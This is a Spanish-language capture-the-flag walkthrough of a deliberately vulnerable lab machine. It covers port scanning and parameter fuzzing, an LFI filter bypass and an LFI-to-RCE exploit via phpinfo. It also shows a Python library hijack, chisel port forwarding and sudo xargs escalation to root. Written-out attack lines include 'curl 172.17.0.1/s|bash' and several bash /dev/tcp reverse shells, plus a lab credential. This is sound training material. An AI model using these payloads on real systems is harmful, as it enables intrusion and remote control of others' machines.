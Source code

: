 Hacemos el escaneo de nmap:
![[Pasted image 20240508153623.png]]
Esto corre por el puerto 80:
![[Pasted image 20240508153638.png]]
Hacemos fuzzing y vemos un idol.html y un info.php:
![[Pasted image 20240508153721.png]]
Donde vemos esto:
![[Pasted image 20240508153737.png]]
Pero por aquí vemos que se pueden subir archivos:
![[Pasted image 20240508153817.png]]
Revisamos el otro directorio:
![[Pasted image 20240508153843.png]]
Abajo, tenemos un botón:
![[Pasted image 20240508153856.png]]
Donde se nos carga una ruta un poco extraña:
![[Pasted image 20240508153915.png]]
Intentamos usar el parámetro file para ver si podemos explotar un LFI pero no podemos:
![[Pasted image 20240508153946.png]]
Por lo que vamos a fuzzear este parámetro usando wfuzz:
```bash
wfuzz -c --hw=9 --hc=404 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -u 'http://172.17.0.2/clouddev3lopmentfile.php?FUZZ=/etc/passwd'
```
Y nos encuentra filename:
![[Pasted image 20240508154311.png]]
Vemos que cambia el mensaje, aunque tiene pinta de que haya alguna limitación:
![[Pasted image 20240508154346.png]]
Para hacerle un bypass, haremos lo siguiente:
```bash
http://172.17.0.2/clouddev3lopmentfile.php?filename=....//....//....//....//....//....//....//....//....//etc//passwd
```
![[Pasted image 20240508154452.png]]
Vamos a convertir un LFI en un RCE usando el siguiente exploit:
```bash
https://book.hacktricks.xyz/pentesting-web/file-inclusion/lfi2rce-via-phpinfo
```
![[Pasted image 20240508155301.png]]
Dentro de este script hay que cambiar lo siguiente:
```php
<?php system("curl 172.17.0.1/s|bash");?>\r""" % TAG

/info.php

LFIREQ="""GET /clouddev3lopmentfile.php?filename=/....//....//....//....//....//....//%s HTTP/1.1\r

i = d.index("[tmp_name] =&gt")

i = d.find("[tmp_name] =&gt")
```
![[Pasted image 20240508161511.png]]
![[Pasted image 20240508161520.png]]
Y ahora tenemos que cambiar los variables de php, por lo que vamos a interceptar la petición en el /info.php:
![[Pasted image 20240508183332.png]]
Y cambiamos la petición a POST:
![[Pasted image 20240508183506.png]]


![[Pasted image 20240508161530.png]]
![[Pasted image 20240508161540.png]]
Nos ponemos en escucha con python compartiendo el siguiente archivo llamado s:
![[Pasted image 20240508161609.png]]
Lo ejecutamos:
![[Pasted image 20240508161621.png]]
Recibimos la petición:
![[Pasted image 20240508161630.png]]
Y la reverse shell:
![[Pasted image 20240508161639.png]]
Tenemos una nota para mario:
![[Pasted image 20240508161728.png]]
![[Pasted image 20240508161736.png]]
Tenemos la contraseña del usuario xerosec:
```bash
xerosec:megustaelfallout
```
Ejecutamos el comando sudo -l vemos que podemos ejecutar el siguiente script de python:
![[Pasted image 20240508161928.png]]
Y vemos que se encuentra en tmp, donde tenemos permisos de escritura, además de hacer uso de la librería hashlib:
![[Pasted image 20240508161955.png]]
Por lo que podemos explotar un python library hijacking, de tal forma que usando la librería os, podremos ejecutar una reverse shell:
```python
import os

os.system("bash -c 'bash -i >& /dev/tcp/192.168.0.20/333 0>&1'")
```
Ejecutamos el otro script como mario:
```bash
sudo -u mario /usr/bin/python3 /tmp/script.py
```
Y recibimos la shell como mario:
![[Pasted image 20240508162233.png]]
Dentro del directorio de mario, tenemos el siguiente mensaje:
![[Pasted image 20240508162413.png]]
En este punto, seguramente haya puertos funcionando de forma interna, pero no tenemos ni netstat ni ninguna herramienta para ver puertos internos, por lo que tenemos el siguiente comando para visualizar puertos internos dentro de /proc/net/tcp:
```bash
for port in $(cat /proc/net/tcp | awk '{print $2}' | awk '{print $2}' FS=":" | sort -u); do echo "[+] PORT $port -> $((0x$port))"; done
```
![[Pasted image 20240508162747.png]]
Por lo que ejecutamos el comando curl pasándolo por el puerto 9999:
```bash
curl http://localhost:999
```
Y nos pide pasar algún comando:
![[Pasted image 20240508162829.png]]
Por lo que ahora, si ejecutamos el comando id pasando el script de php, vemos que funciona:
```bash
curl http://localhost:9999/index.php?cmds4vi=id
```
![[Pasted image 20240508162949.png]]
Podemos ejecutar por aquí una reverse shell:
```bash
curl http://localhost:9999/index.php?cmds4vi=bash -i >& /dev/tcp/172.17.0.1/4444 0>&1
```
Pero no la recibimos del todo:
![[Pasted image 20240508163112.png]]
Por lo que vamos a reenviarnos este puerto de forma local:
```bash
curl -o chisel.gz -L https://github.com/jpillora/chisel/releases/download/v1.7.7/chisel_1.7.7_linux_amd64.gz
```
Y lo usamos de la siguiente forma:
```bash
./chisel client 172.17.0.1:8080 R:9999:127.0.0.1:9999

./chisel server --reverse 1234
```
![[Pasted image 20240508163840.png]]
Y ahora si que vemos este puerto 9999:
![[Pasted image 20240508163849.png]]
Y pegamos el payload:
```bash
http://localhost:9999/index.php?cmds4vi=bash -c "bash -i >%26 /dev/tcp/172.17.0.1/5555 0>%261"
```
![[Pasted image 20240508164434.png]]
![[Pasted image 20240508164442.png]]
Siendo el usuario s4vitar, vemos que podemos ejecutar xargs:
![[Pasted image 20240508164503.png]]
Escalamos a root:
```bash
sudo /usr/bin/xargs -a /dev/null bash
```
![[Pasted image 20240508164610.png]]
